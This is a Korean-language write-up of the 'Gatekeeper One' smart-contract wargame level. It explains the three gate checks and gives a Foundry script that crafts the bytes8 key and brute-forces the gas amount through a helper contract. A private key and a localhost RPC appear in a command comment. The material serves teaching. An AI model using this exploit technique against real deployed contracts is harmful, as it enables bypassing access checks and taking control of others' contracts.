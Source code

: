 # 지문

문지기를 넘어 참가자로 등록하면 이 레벨을 통과할 수 있습니다.

도움이 될 만한 것들:

Telephone과 Token 레벨에서 배운 내용을 떠올리세요.

Solidity 문서에서 특수 함수 gasleft()를 더 자세히 볼 수 있습니다(Units and Global Variables, External Function Calls 항목 참고).

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

# 풀이 

`gateOne` modifier의 조건은 직관적임. `msg.sender!=tx.origin` 이니까 EOA에서 바로 문제 Contract 호출이 아니라 Contract를 하나 생성해서 그 Contract를 통해서 문제 Contract 호출을 하면됨.

`gateTwo` modifier의 조건은 저 modifier가 실행되는 시점의 남은 가스양이 8191의 배수여야함. 이건 그냥 브루트 포싱으로 충분히 가능한일 

`gateThree` modifier의 코드를 뜯어보면 충족시켜야하는 조건이 총 3가지임

1. 4바이트로 자른값과 2바이트로 자른값이 같아야함.
2. 8바이트로 봤을 때 4바이트로 자른값과 달라야함.
3. 8바이트중에 마지막 2바이트는 `tx.origin`의 주소 마지막 2바이트와 일치해야됨.



```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script} from "forge-std/Script.sol";
import "forge-std/console.sol";

interface ITarget {
    function enter(bytes8 _gateKey) external returns (bool);
    function entrant() external view returns (address);
}

contract Helper {
    function _makeKey(address origin_) internal pure returns (bytes8) {
        uint64 key64 = (uint64(1) << 32) | uint64(uint16(uint160(origin_)));
        return bytes8(key64);
    }


    function trigger(address target, address tx_origin) public {
        console.log("my answer");
        console.logBytes8(_makeKey(tx_origin));

        bytes8 _gateKey = _makeKey(tx_origin);
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");

        bool res;
        for(uint i=0;i<10000000000000000;i++) {
            (res, ) = target.call{gas:(8191*10) + i}(abi.encodeWithSelector(ITarget.enter.selector, _gateKey));
            if(res==true)
                break;
        }
        console.log("End!");
    }

}
contract SolveScript is Script {
    address public target = 0x6F1216D1BFe15c98520CA1434FC1d9D57AC95321;

    function setUp() public {}

    // forge script -vvv script/Solve.s.sol --broadcast --tc SolveScript --legacy --private-key 0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a --rpc-url http://localhost:8545
    function run() public {
        vm.startBroadcast();
        address myAddr = 0x3C44CdDdB6a900fa2b585dd299e03d12FA4293BC;
        Helper helper = new Helper();
        helper.trigger(target, myAddr);
        console.log("entrant address : %s", ITarget(target).entrant());
        vm.stopBroadcast();
    }
}
```